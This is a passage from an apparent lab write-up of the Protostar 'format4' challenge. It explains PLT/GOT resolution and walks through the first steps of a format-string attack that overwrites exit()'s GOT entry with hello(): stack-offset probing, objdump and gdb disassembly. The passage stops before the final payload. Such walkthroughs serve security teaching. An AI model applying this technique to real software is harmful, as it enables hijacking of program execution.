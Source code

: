 - If **the GOT entry** is empty (not yet resolved), **the PLT** calls the dynamic linker (`ld.so`), which finds the actual address of `exit()` in `libc` and updates **the GOT entry** with this address.
- If **the GOT entry** is already filled, the function is called directly from **the GOT** without needing **the PLT** again.

We can exploit this by using **printf()** to overwrite the GOT entry for `exit`, replacing its stored address with the address of our **hello()** function. That way, when `exit()` is called, the program will execute `hello()` instead, successfully redirecting the program execution.

### Exploit

As usual, we first need to find the location of our input in the stack:

```shell
user@protostar:/opt/protostar/bin$ python -c 'print "AAAA" + ".%x" * 5' | ./format4
AAAA.200.b7fd8420.bffff614.41414141.2e78252e
```

So, our input starts at the 4th location in the stack.

Next, we will use `objdump` to find the addresses of **hello()**:

``` shell
user@protostar:/opt/protostar/bin$ objdump -t ./format4 | grep hello
080484b4 g     F .text  0000001e              hello
```

Remember that we first go to **the PLT entry**, then we can get access to **the GOT entry**. So, our goal is simple: find **the PLT entry**, disassemble it, and from there, we'll get **the GOT entry**.

```shell
user@protostar:/opt/protostar/bin$ gdb ./format4
(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) disassemble vuln
Dump of assembler code for function vuln:
...
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
```

So, `exit()` is being called through its **PLT stub** at `0x80483ec`. Let's disassemble it to see what's inside:

```shell
(gdb) disassemble 0x80483ec
Dump of assembler code for function exit@plt:
0x080483ec <exit@plt+0>:        jmp    DWORD PTR ds:0x8049724
0x080483f2 <exit@plt+6>:        push   0x30
0x080483f7 <exit@plt+11>:       jmp    0x804837c
End of assembler dump.
```

The first instruction jumps to the address stored at `0x8049724`, which means that's our **GOT entry** for `exit`. Let's examine it:

